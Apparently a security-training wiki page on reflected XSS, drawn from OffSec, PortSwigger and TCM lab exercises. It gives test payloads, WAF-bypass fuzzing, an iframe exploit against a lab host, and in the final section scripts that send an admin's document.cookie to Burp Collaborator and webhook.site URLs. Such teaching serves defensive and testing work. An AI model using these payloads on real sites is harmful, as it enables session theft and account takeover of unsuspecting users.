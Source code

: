 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reflected

{% hint style="info" %}
Reflected XSS occurs when malicious scripts are reflected off a web server, executed immediately, and displayed in the user's browser, typically via URL parameters or form inputs.
{% endhint %}

{% hint style="danger" %}
This can lead to unauthorized actions, data theft, or redirection to malicious sites, as the script runs in the context of the trusted website.
{% endhint %}

## Reflected Server XSS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

This type of XSS is often found in `GET` requests and is based on the fact that the user trusts the domain. The app below has a search functionality where the search term is passed through a `GET` request and the `s` parameter. It is also reflected on the page via a `div` element (Figure 1).

<figure><img src="../../../../.gitbook/assets/offsec_xss_rs1.png" alt=""><figcaption><p>Figure 1: Searching for potential XSS entry points.</p></figcaption></figure>

A good starting point for finding XSS, is to first test for HTML injection. The latter has less potential for error, however, being able to inject HTML doesn't guarantee an XSS vulnerablity (Figure 2).

```html
<h1>test</h1>
```

<figure><img src="../../../../.gitbook/assets/offsec_xss_rs2.png" alt=""><figcaption><p>Figure 2: Testing for HTML injection.</p></figcaption></figure>

Since the app is vulerable to HTML injection, we can proceed testing for XSS (Figure 3).

```javascript
<script>prompt("XSS")</script>
```

<figure><img src="../../../../.gitbook/assets/offsec_xss_rs3.png" alt=""><figcaption><p>Figure 3: Testing for XSS.</p></figcaption></figure>

If our target clicks the link that includes the payload, it will be executed on their browser.

```html
search.com/search.php?s=%3Cscript%3Eprompt%28%22XSS%22%29%3C%2Fscript%3E
```

We can confirm that the server initiated the appending of the payload the to document by intercepting the request. The client executed the payload, but did not append it (Figure 4).\


<figure><img src="../../../../.gitbook/assets/offsec_xss_rs4.png" alt=""><figcaption><p>Figure 4: Confirming the server-side reflected XSS.</p></figcaption></figure>

## Reflected Client XSS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

The impact of Reflected Client XSS is similar to that of Reflected Stored XSS, although the discovery and payload may differ. The payload is appended on the client-side rather on the server-side, and this mean that we can't enumerate Client XSS by intercepting the traffic and reviewing the server's response. Instead, we need to let the browser render the page fully and check if the payload has worked.

This app in question includes a `GET` request with the parameter `name` which seems to be vulnerable to HTML injection (Figure 5).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_client_1.png" alt=""><figcaption><p>Figure 5: Testing for HTML injection.</p></figcaption></figure>

Testing for XSS seems unsuccessful, although the payload seems to be appended correctly (Figure 6).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_client_2.png" alt=""><figcaption><p>Figure 6: Testing for XSS.</p></figcaption></figure>

Diving into the Network tab and reading the HTTP response, we can see that the string returned is `Welcome, User!` which is not what we get on our browser (Figure 7).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_client_3.png" alt=""><figcaption><p>Figure 7: Inspecting the network tab.</p></figcaption></figure>

Scrolling down the JS file, we can find that two more resources are loaded (Figure 8).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_client_4.png" alt=""><figcaption><p>Figure 8: Enumerating JavaScript resources.</p></figcaption></figure>

Diving deeper into the `survey.js` file, we find out that it sets the `innerHTML` of the `welcome` DOM element to the value set in the `name` parameter. This is where our payload gets injected.

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_client_5.png" alt=""><figcaption><p>Figure 9: Investigating the <code>survey.js</code> file.</p></figcaption></figure>

According to [MDN](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML), HTML specifies that a `<script>` tag inserted with `innerHTML` should not execute. However, right on the next line it gives a payload that should work (Figure 10).

```javascript
<img src='x' onerror='alert(1)'>
```

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_client_6.png" alt=""><figcaption><p>Figure 10: Successfully performing an XSS attack.</p></figcaption></figure>

## Filter Bypass

> _The example below is based on PortSwigger's_ [_Reflected XSS into HTML context with most tags and attributes blocked_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked) _lab._

In this web application, there is a search functionality and the search term is reflected back into the page within HTML tags (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_1.png" alt=""><figcaption><p>Figure 1: Identifying where our input is reflected.</p></figcaption></figure>

When our payload is inside HTML tags, we can simply add new HTML tags to trigger it. It seems that there is a WAF[^1] blocking specific tags (Figure 2).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_2.png" alt=""><figcaption><p>Figure 2: Common JavaScript tags seem to be blocked by a WAF.</p></figcaption></figure>

We can create a tag wordlist using PortSwigger's [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet), and fuzz the application to see which tags are allowed (Figure 3).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_3.png" alt=""><figcaption><p>Figure 3: Fuzzing JavaScript tags with Burp's Intruder.</p></figcaption></figure>

Trying the `<body>` tag results in another verbose error message (Figure 4).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_4.png" alt=""><figcaption><p>Figure 4: Another verbose error message informing us about a blacklisted attribute.</p></figcaption></figure>

We can repeat the same process and enumerate allowed attributes (Figure 5).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_5.png" alt=""><figcaption><p>Figure 5: Fuzzing JavaScript attributes with Burp's Intruder.</p></figcaption></figure>

Now, all we have to do is delivering our XSS payload to the victim via the exploit server (Figure 6).

{% code overflow="wrap" %}
```javascript
<iframe src="https://0a64008c03c63be4804ada980065007b.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" onload=this.style.width='1em'>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_6.png" alt=""><figcaption><p>Figure 6: Delivering the exploit to the victim via an <code>iframe</code>.</p></figcaption></figure>

## Within JS

> _The example below is based on PortSwigger's_ [_Reflected XSS into a JavaScript string with angle brackets HTML encoded_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded) _lab._

This time the search keyword ends up within a block of JS[^2] code (Figure 7).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_7.png" alt=""><figcaption><p>Figure 7: Identifying the context of a potential XSS flaw.</p></figcaption></figure>

We can treat this similar to an [SQLi](../sqli/) flaw and try injecting JS[^3] code to the search keyword (Figure 8).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_8.png" alt=""><figcaption><p>Figure 8: Achieving XSS via JavaScript Injection.</p></figcaption></figure>

## Contact Form

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This application has a Support Ticket functionality and we also have access to an admin account that will review the submitted ticket. To test for stored XSS will use FireFox's [Multi-Account Containers](../../authorization/automated-a-b-testing.md#multi-account-containers) (Figure 9).

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_1.png" alt=""><figcaption><p>Figure 9: Setting up FireFox's containers for XSS testing.</p></figcaption></figure>

We will a web server, such as Burp's Collaborator or [Webhook](https://webhook.site/), to receive the request along with the admin's cookie (Figure 10 & 11).

{% code overflow="wrap" %}
```javascript
// collaborator payload
<script>
fetch('https://705jjd45qk9l1pb4rhns097xgomfa5yu.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

// webhook payload
<script>var i = new Image; i.src="https://webhook.site/094ef770-e736-4b31-a3cb-34be690ff1b9/?"+document.cookie</script>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_collaborator.png" alt=""><figcaption><p>Figure 10: Using Burp's Collaborator to steal the admin's cookie.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_webhook.png" alt=""><figcaption><p>Figure 11: Figure 10: Using Webhook to steal the admin's cookie.</p></figcaption></figure>

[^1]: Web Application Firewall

[^2]: JavaScript

[^3]: JavaScript
